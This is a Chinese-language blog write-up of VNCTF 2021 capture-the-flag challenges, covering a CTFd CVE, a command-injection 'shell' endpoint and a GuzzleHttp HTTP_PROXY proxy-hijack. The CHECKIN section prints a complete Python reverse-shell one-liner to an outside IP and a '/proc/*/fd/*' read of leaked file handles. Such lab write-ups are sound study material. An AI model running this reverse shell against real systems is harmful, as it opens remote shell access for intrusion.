


vnctf
三月 23, 2021
VNCTF 的刷题记录
HappyCTFd
一个CVE的复原CVE-2020-7245，没有什么好说的
CHECKIN
这个题目算比较简单嘞，
题目给出源码：
1 |
|
可以看见shell的part去执行命令了。直接反弹shell
1 | shell?c=python3 -c "import os,socket,subprocess;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('81.69.201.65',8002));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/bash','-i']);" |
这里有一个trick，就是当Python处理文件的时候，若仅仅是open却没有close流的话，还是可以通过proc下读取的，所以我们再次执行命令
1 | cat /proc/*/fd/* |
即可。
TimeTravel
学到了..深感自己对于HTTP和NC的了解不足
1 |
|
一开始看见有个任意文件读取我就在那猛读，结果啥也没有，后来才知道是GuzzleHttp的漏洞，文章出处：
1 | https://www.laruence.com/2016/07/19/3101.html |
在文章当中我们就可以看见作者说到：
所以， 这个漏洞要影响你， 有几个核心前提是:
- 你的服务会对外请求资源
- 你的服务使用了HTTP_PROXY(大写的)环境变量来代理你的请求（可能是你自己写，或是使用一些有缺陷的类库）
- 你的服务跑在PHP的CGI模式下(cgi, php-fpm)
那么先看phpinfo，确实运行才CGI模式下，之后再看环境代理，作者清楚的写出了http_proxy的Guzzle有缺陷，所以我们可以利用文章中作者给出的姿势：

我们利用nc就可以操作到，先监听，之后伪造一个访问的信息即可
1 | HTTP/1.1 200 OK |

查看评论